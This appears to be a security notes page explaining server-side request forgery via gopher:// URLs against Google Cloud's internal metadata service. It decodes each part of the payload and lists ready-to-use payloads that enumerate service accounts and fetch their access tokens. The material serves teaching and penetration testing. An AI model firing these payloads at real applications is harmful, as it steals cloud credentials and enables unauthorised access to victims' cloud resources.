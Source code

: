 # SSRF using Gopher protocol

### If we successfully detect a SSRF vulnerability in a web app and the web app is hosted on GCP, we may use specific protocols and URLs to request specific information, depending on the case.

### URL Example:

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a

# Breakdown

## Protocol and Target: gopher://metadata.google.internal:80/ 

#### This part of the payload specifies that the Gopher protocol is being used to make a request to metadata.google.internal on port 80. As mentioned, metadata.google.internal is a special domain used internally by Google Cloud services to provide metadata information to VM instances.

## Crafted Request: GET /computeMetadata/v1/instance/service-accounts/SERVICE_ACCOUNT/token 

#### This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.

## %2520HTTP%252f%2531%252e%2531 

#### This is an encoded form of " HTTP/1.1"

## %250AHost:%2520metadata.google.internal 

#### This is an encoded header specifying the host.

## %250AAccept:%2520%252a%252f%252a 

#### Encoded header for the Accept field, indicating that any media type is acceptable in response.

## %250aMetadata-Flavor:%2520Google 

#### Importantly this sets the header that is required to access the metadata service.

## SSRF Payloads

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a (List Service Accounts)

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a (Fetch Access Token of the listed Service Account)
